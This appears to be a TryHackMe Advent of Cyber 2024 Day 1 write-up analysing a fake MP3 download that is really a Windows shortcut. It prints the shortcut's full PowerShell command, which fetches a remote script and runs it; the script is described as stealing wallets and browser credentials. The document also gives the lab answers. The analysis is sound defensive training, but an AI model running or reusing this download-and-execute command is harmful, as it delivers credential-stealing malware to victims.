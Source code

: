 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge

## Objectives 🎯

Day 1 begins the **Advent of Cyber 2024** with an exciting challenge to investigate a suspicious YouTube to MP3 converter website. The focus is on:
1. Analyzing downloaded files to uncover malicious behavior.
2. Investigating embedded metadata and suspicious scripts.
3. Tracing the attacker’s digital breadcrumbs to expose their OPSEC mistakes.

## Steps 🚀

### Step 1: Investigating the Website
1. **Access the website:**  
   Hosted at `10.10.200.221`, the site appeared to be a standard YouTube to MP3 converter.
2. **Download the files:**  
   I entered a YouTube link, which downloaded a `download.zip` file containing:
   - **`song.mp3`**: A legitimate audio file.
   - **`somg.mp3`**: A suspiciously named file.

### Step 2: File Analysis Using ExifTool
- **Analyzing `song.mp3`:**  
  Running `exiftool song.mp3` revealed nothing unusual—just a standard MP3 file.
- **Analyzing `somg.mp3`:**  
  Running `exiftool somg.mp3` revealed:
  - It was a Windows Shortcut file (`.lnk`), not an MP3.
  - Metadata contained an embedded PowerShell command:
    ```
    -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
    ```
  This command bypasses PowerShell execution policies, downloads a malicious script, and executes it.

### Step 3: Opening the Embedded URL
- **Inspect the URL:**  
  The URL hosted a PowerShell script designed to steal:
  - Cryptocurrency wallet files.
  - Browser credentials.
- **C2 Server:**  
  Stolen data was sent to a Command and Control (C2) server controlled by the attacker.

### Step 4: Tracing the Attacker on GitHub
- **Signature in Script:**  
  The script contained the signature:
  ```
  "Created by the one and only M.M."
  ```
- **Search Results:**  
  Searching GitHub for `"Created by the one and only M.M."` led to:
  - A repository owned by **M.M.**
  - Comments tying their account to malicious activity.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures
1. **Reused Aliases:**  
   The attacker used the same alias ("M.M.") across platforms, making them easier to track.
2. **Identifiable Metadata:**  
   Including a signature in the script created a direct link to their identity.
3. **Public Interactions:**  
   GitHub comments connected their profile to the malicious activity.

### Tools and Techniques 🛠️
1. [ExifTool](https://exiftool.org/) – Extracted metadata to uncover the embedded PowerShell command.
2. **Browser Inspection:** Investigated URLs to find malicious scripts.
3. [GitHub Search](https://github.com/) – Traced the attacker through their digital breadcrumbs.

## Final Thoughts 🎁

Day 1 was an excellent introduction to metadata analysis and attacker investigation. Tracking down M.M. using GitHub highlighted how OPSEC failures can leave attackers exposed. This challenge provided a perfect mix of technical analysis and detective work to kick off the Advent of Cyber!

### Answers ✅
1. **What file was harmless?**  
   **Answer:** `song.mp3`
2. **What was the embedded PowerShell command used for?**  
   **Answer:** Bypassed execution policies, downloaded a malicious script, and executed it.
3. **What is the attacker’s alias?**  
   **Answer:** `M.M.`

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](README.md)                    | 11   | [Wi-Fi Attacks](day_11.md)             | 22   | [Kubernetes DFIR](day_22.md)            |
| 1    | **OPSEC Challenge**                    | 12   | [Web Timing Attacks](day_12.md)        | 23   | [Hash Cracking](day_23.md)              |
| 2    | [Log Analysis](day2.md)                | 13   | [WebSockets](day_13.md)                | 24   | [Hash Cracking](day_23.md)              |
| 3    | [Log Analysis](day3.md)                | 14   | [Certificate Mismanagement](day_14.md) | 25   |                                         |
| 4    | [Atomic Red Team](day4.md)             | 15   | [Active Directory](day_15.md)          | 26   |                                         |
| 5    | [XXE](day5.md)                         | 16   | [Azure Exploitation](day_16.md)        | 27   |                                         |
| 6    | [Sandboxes](day6.md)                   | 17   | [Log Analysis](day_17.md)              | 28   |                                         |
| 7    | [AWS Sandboxes](day7.md)               | 18   | [Prompt Injection](day_18.md)          | 29   |                                         |
| 8    | [Shellcodes](day8.md)                  | 19   | [Game Hacking](day_19.md)              | 30   |                                         |
| 9    | [Risk Assessment](day9.md)             | 20   | [Traffic Analysis](day_20.md)          | 31   |                                         |
| 10   | [Phishing](day_10.md)                  | 21   | [Reverse Engineering](day_21.md)       | ☃️  | 🎄🎅🎁✨                              |
